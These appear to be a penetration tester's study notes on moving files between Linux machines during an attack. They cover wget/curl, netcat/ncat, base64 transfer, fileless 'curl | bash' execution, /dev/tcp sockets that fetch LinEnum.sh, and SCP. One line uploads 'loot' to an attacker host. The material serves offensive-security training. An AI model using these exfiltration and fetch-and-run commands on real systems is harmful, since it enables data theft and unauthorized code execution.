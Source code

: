 Linux to Linux communication
![[images.jpg]]

# Basic tools
## wget and curl
- for downloading things from a server
- `wget https://.... -O output.sh`
- `curl -o output.sh https://..`
	- -T to upload
	- `curl -T /path/to/loot http://attacker:9001/loot.txt

## starting a listener server with netcat (2 way transfer allows)
- `sudo nc -lvnp 8000

## starting a http server with python
- `python3 -m http.server`


# Methods
## Base 64 Encoding/Decoding
1. On sender
	- `md5sum file.txt
	- `cat file.txt |base64 -w 0;echo`
2. On receiver
	- `echo -n 'long_string' | base64 -d > id_rsa`
	- `md5sum file.txt

## File transfer with netcat/ncat
from our machine to target, if target hosts server:
1. target machine listens
	- `nc -l -p 8000 > text.exe`
	- `ncat -l -p 8000 --recv-only > text.exe`
2. our machine sends
	- `nc -q 0 <target_ip> 8000 < text.exe`
	- `ncat --send-only <target_ip> 8000 < text.exe`

from our machine to target, if target connects to our server:
1. our machine hosts
	- `sudo nc -l -p 443 -q 0 < text.exe`
	- `sudo ncat -p -p 443 --send-only < text.exe`
2. target connects to nc to receive file
	- `nc <host_ip> 443 > text.exe`
	- `ncat <host_ip> 443 --recv-only > text.exe`
	- if don't have netcat or ncat here, can use bash
	- `cat < /dev/tcp/<host_ip>/443 > text.exe`

(can just reverse all of the above to send from target to our machine)

## Fileless attacks on Linux
- No need download file to execute it, just pipe
- (eg. assuming these are .sh and python3 scripts respectively)
- curl
	- `curl https:// .... | bash`
- wget
	- `wget -q0- https://... | python3`

## Bash
1. Connect to Target Webserver 
	- `exec 3<>/dev/tcp/10.10.10.32/80`
		- 10.10.10.32 is the one acting as server
		- opens TCP socket to 10.10.10.32 on port 80, attaches it to file descriptor 3 for reading and writing
		- after this, can write to (>&3) and read from (<&3) socket 
2. HTTP Get request
	- `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
		- request to get linenum.sh from the server
3. Print the response
	- `cat <&3`
		- reads everything sent by server on FD3 and prints to terminal

## SSH
1. Start SS server on server
	- `sudo systemctl start ssh
2. Check for SSH listening port
	- `netstat -lnpt`
3. Download files using SCP on target
	- `scp filename@serverIP:/file_path`





Also see [[4. Linux Uploads (target to local)]], WebServer with Python section
